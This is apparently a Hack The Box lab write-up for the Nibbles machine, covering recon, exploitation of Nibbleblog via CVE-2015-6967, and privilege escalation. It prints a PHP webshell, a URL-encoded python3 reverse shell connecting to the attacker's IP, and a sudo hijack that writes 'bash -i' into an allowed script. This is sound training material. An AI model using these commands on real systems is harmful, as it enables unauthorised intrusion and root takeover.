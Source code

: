 ```yaml
---
title: HTB Nibbles
date: 2022-08-08 23:58:00 +0800
categories: [HTB]
tags: [HTB, Easy, External, Nibbleblog, CVE-2015.6967, A06:2021-Vulnerable And Outdated Components]
pin: false
---
```


![nibbles-img](https://www.hackthebox.com/storage/avatars/344a8f99e8f7dddfed764f791e2731df.png)

This is the writeup for [Nibbles](https://app.hackthebox.com/machines/Nibbles) machine from HTB.

## Scanning and enumeration

Now it's time to start the active scanning.

As always, we define our TARGET and hosts file of our machine to facilitate the process.

```console
TARGET=10.10.10.75
echo "10.10.10.75 nibbles.htb" | sudo tee -a /etc/hosts
```

We launch a single `TCMP` probe to check ping.

```console
ping -c 1 $TARGET		# => Ping is working
```

### NMAP

To scan the `target` to find open ports and possible vulnerabilities we use `nmap`.

First, simple `TCP` scan without `DNS` resolution and ping discovery, to all the ports and with the version detection.

```console
nmap -n -Pn -sV -p- $TARGET -vvv -oG allPorts
```

### Nibbleblog

First we visit the site _<http://nibbles.htb>_, from the source code we can see that there is an indication to `nibbleblog`. This is an important clue because we can already check on the internet.

[CSRF](https://seclists.org/fulldisclosure/2015/Sep/4)
[RCE in My Image plugin](https://seclists.org/fulldisclosure/2015/Sep/5)

It looks like to exploit the `RCE` we might need to be logged in. This is something somehow difficult, because it requires guessing and the machine has a protection in place to avoid people from using tools like `hydra`.

The user can be obtained from the _</nibbleblog/content/private/users.xml>_ and the password must be guessed. (In real life probably we should have exploit the CSRF or XSS and wait for the user to login, with this blacklist protection is hard...)

Once we are inside we are going to use [CVE-2015-6967](https://www.cvedetails.com/cve/CVE-2015-6967/) to upload a '`php webshell`.

```console
echo "<?php system($_REQUEST['cmd']); ?>" > cmd.php
```

Ignore the warnings after uploading the image and go to _</nibbleblog/content/private/plugins/my_image/image.php?cmd=whoami>. It will display the username.

_
## Gaining access

Just launch a reverse shell (I like the shortest python3...)

_<http://nibbles.htb/nibbleblog/content/private/plugins/my_image/image.php?cmd=python3%20-c%20%27import%20os%2Cpty%2Csocket%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28%2210.10.14.8%22%2C7890%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cf%29for%20f%20in%280%2C1%2C2%29%5D%3Bpty.spawn%28%22%2Fbin%2Fbash%22%29%27>_


## Privilege escalation / lateral movements

We execute `sudo -l` to understand if it is possible to execute commands as `sudo`. We see that it is possible to execute `sudo /home/nibbler/personal/stuff/monitor.sh`

The file doesn't exist so we just need to create it and grant permissions

```console
mkdir /home/nibbler/personal
mkdir /home/nibbler/personal/stuff
echo "bash -i" > /home/nibbler/personal/stuff/monitor.sh
chmod +x /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```
And we are root!